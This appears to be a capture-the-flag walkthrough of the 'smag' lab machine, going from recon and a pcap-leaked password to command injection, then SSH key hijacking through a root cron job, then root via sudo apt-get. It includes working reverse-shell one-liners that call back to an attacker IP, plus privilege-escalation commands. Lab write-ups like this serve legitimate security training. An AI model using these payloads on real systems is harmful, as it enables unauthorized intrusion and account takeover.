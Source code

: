 # recon
## nmap
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## gobuster
- /mail/ : you will find `.pcap` file, download it and open it using Wireshark. 

As you can see, there is a http traffic with `POST /login.php`. The request body contain a user cerdential. 
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0w
HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
You can see that the password was correct+working since the HTTP response was 200 OK. Lastly, the request was sent to `development.smag.thm` which mean that we need to add this host name to our `/etc/hosts` to be able to access this site.


```console
echo "<ip> development.smag.thm" >> /etc/hosts
```
There are a few .php files on the site, `admin.php` and `login.php`. You will be redirected to `admin.php` after you login with the cerdential that we got from `.pcap` file


`admin.php` allows us to excute command on the server. but there is no way that we could see the result/output of the executed command. 


To check if `admin.php` works, we can `ping` to ping back to our Kali. On Kali we use tcpdump and listen for ping packets. if we got something on tcpdump then `admin.php` is working

on victim server
```console
$ ping <kali ip> -c 2
```
on kali
```console
$ sudo tcpdump -i tun0 icmp
```
# Foothold as www-data
It works!!! so now time to get foothold by excuting reverse shell! there are many payload which you can find on this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


Some payloads didnt works. to check if it work or the payload is executed properly you can run
```
$ <payload> && ping <kali ip> -c 2
```
Megamos came up with this Idea, What it would do is, if the payload is sucsesfully then it will ping back to us. In this way we can tell if it works or not. Or you simply just try the payload and see if it connenct back to you netcet listner.

After many tries, these are 2 payload that we tried and work
```
php -r '$sock=fsockopen("10.8.14.151",6969);exec("/
bin/sh -i <&3 >&3 2>&3");'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.14.151 6969 > /tmp/f
```

# Foothold as Jake
I tried `sudo -l` for list user's privileges or check aspecific command, but it asked for www-data's password so we need to look for another way. I remember that port 22 is open, I ran`locate *.pub` look for a ssh public key.


Then I ended up checking `crontab` and BINGO!!!
```console
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
The last cornjob looks really interesting, it `cat /opt/.backups/jake_id_rsa.pub.backup` and feed into `/home/jake/.ssh/authorized_keys`. and it does it every 1 min. So this mean that the `authorized_keys` is the content of `jake_id_rsa.pub.backup`

So there are 2 things we could do here,
1. copy the content of `jake_id_rsa.pub.backup` and create a new key on our kali with that content
2. create key on our kali and copy the content and replace the content of `jake_id_rsa.pub.backup` with our public key that we generate.
```console
$ cd /opt/.backups/
$ echo "my ssh key (id_rsa.pub)" > jake_id_rsa.pub.backup
```
You can pick, But just know that there is a draw back to the 2nd way to gain access as Jake. Jake original key would be gone and REAL Jake will not be able to connect to his server again.. which is bad right? since the victim will notice that there is something odd here. But you pick

Now ssh to victim server with ssh key!
```
bibo318@parrot:~$ ssh jake@smagrotto.thm -i .ssh/id_rsa
The authenticity of host 'smagrotto.thm (10.10.243.223)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'smagrotto.thm,10.10.243.223' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ cat user.txt # get user flag
```
# Root
So we will repeat the same process as when we try to gain access as Jake. Start with `sudo -l`
```console
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Seem like we are allow to run `/usr/bin/apt-get` as root and no password is required, This is perfect since we do not know Jake password. So let check [GTFObins](https://gtfobins.github.io/gtfobins/apt-get/), and this is our payload `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

what `APT::Update::Pre-Invoke::={"your-command-here"}` does is, It allow us to execute a command before the **update** process is excute. To understand more you can read [this](https://unix.stackexchange.com/questions/204414/how-to-run-a-command-before-download-with-apt-get). In this case we are forcing `apt-get update` to execute `/bin/sh` before updating the server
```console
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# cat /root/root.txt
```
GL and happy hacking